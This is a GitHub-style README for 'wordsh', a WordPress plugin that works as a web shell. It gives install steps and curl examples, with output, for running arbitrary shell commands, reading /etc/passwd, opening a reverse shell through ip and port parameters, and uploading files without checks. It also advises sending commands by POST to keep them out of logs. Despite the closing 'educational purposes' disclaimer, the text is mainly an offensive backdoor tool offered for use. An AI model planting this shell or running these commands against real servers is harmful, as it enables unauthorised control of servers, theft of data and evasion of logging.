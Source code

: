 <p align='center'>
   <img src='.assets/backdoor.png' alt='' width='256' />
</p>

<h2 align='center'>wordsh</h2>

<p align='center'><i>Quick & dirty Wordpress Command Execution Shell.</i></p>

Execute shell  commands on  your wordpress  server. Uploaded  shell will
probably be at `<your-host>/wp-content/plugins/shell/shell.php`

### Installation

To install the shell, we are  assuming you have administrative rights to
Wordpress and can  install plugins since transferring a PHP  file to the
media  library  shouldn't work  anyway.  Otherwise,  you have  a  bigger
problem.

Simply upload  the zip  file located  in the Releases  section as  a new
extension and you're good to go.

### Usage

Using  the shell  is straightforward.  Simply pass  `sh` commands  as an
argument to the shell :

```sh
❯ curl 'http://host/.../shell.php?cmd=uname+-a'
Linux wordpress-server 2.6.32-21-generic-pae #32-Ubuntu SMP Fri Apr 16 09:39:35 UTC 2010 i686 GNU/Linux
```

You may  as well pass  these arguments in a  POST request, which  is the
recommended way to keep your commands out of logs.

```sh
❯ curl 'http://host/.../shell.php' --data-urlencode 'cmd=ls'
LICENSE
README.md
shell.php
```

More complex  commands are  also supported,  careful about  your quoting
though.

```sh
❯ curl 'http://host/.../shell.php' --data-urlencode 'cmd=cat /etc/passwd | grep -v "\(false\|nologin\)"'
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
```

```sh
❯ curl 'http://host/.../shell.php' --data-urlencode 'cmd=python -c "from urllib.parse import urlencode; print(urlencode({\"cmd\": \"uname -a\"}))"'
cmd=uname+-a
```

You can also open a reverse  shell using the `ip` and `port` parameters.
The default port is `443`.

```sh
❯ curl 'http://host/.../shell.php' --data-urlencode 'ip=127.0.0.1'
```

```sh
❯ curl 'http://host/.../shell.php' --data-urlencode 'ip=127.0.0.1' --data-urlencode 'port=1337'
```

There is also an option provided for convenience to upload a file to the
directory of the plugin *unconditionally and without checks*.

```sh
❯ curl 'http://host/.../shell.php' -F 'file=@some_file'
❯ curl 'http://host/.../shell.php' --data-urlencode 'cmd=ls'
LICENSE
README.md
shell.php
some_file
```

### Disclaimer

Running unathorized attacks to public or private servers is illegal. The
content  of this  repository is  for  educational purposes  only and  no
responsibility will be  taken by the authors  in case of ill  use of the
provided material.
